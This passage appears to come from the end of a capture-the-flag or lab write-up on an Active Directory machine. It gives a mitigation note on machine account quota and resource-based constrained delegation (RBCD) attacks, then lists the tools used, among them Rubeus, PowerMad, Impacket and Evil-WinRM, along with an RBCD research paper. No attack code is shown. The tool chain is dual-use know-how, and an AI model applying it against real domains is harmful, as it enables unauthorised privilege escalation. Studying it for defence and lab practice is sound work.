   By default, `ms-DS-MachineAccountQuota` is set to `10`, allowing any low-privileged domain user to create computer accounts. Setting this value to `0` prevents unauthorized machine account creation and mitigates several RBCD attack vectors. Furthermore, privileged systems (Domain Controllers) should never allow write permissions to `msds-allowedtoactonbehalfofotheridentity` from unauthorized accounts.

---

# Tools / Articles I Used

* **[ILSpy / ilspycmd](https://github.com/icsharpcode/ILSpy):** Cross-platform .NET decompiler used to reconstruct C# source code from `UserInfo.exe`.
* **[CyberChef](https://gchq.github.io/CyberChef/):** Used to reverse the Base64 and layered XOR obfuscation scheme.
* **[NetExec (nxc)](https://github.com/Pennyw0rth/NetExec):** Network swiss-army knife used for validating LDAP and SMB credentials.
* **[ldapsearch](https://linux.die.net/man/1/ldapsearch):** Standard CLI tool for querying LDAP databases.
* **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):** The ultimate WinRM shell for hacking Windows and Active Directory boxes.
* **[PowerMad](https://github.com/Kevin-Robertson/Powermad):** PowerShell module used to create machine accounts via LDAP.
* **[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1):** Active Directory enumeration module used for inspecting domain objects and setting LDAP attributes.
* **[Rubeus](https://github.com/GhostPack/Rubeus):** C# toolset for raw Kerberos interaction, ticket requests, and S4U abuse.
* **[Impacket](https://github.com/fortra/impacket):** Suite of Python network tools, specifically `ticketConverter.py` and `smbexec.py`.
* **[Wagging the Dog: Abusing Resource-Based Constrained Delegation](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html):** The definitive research paper on RBCD by Elad Shamir.
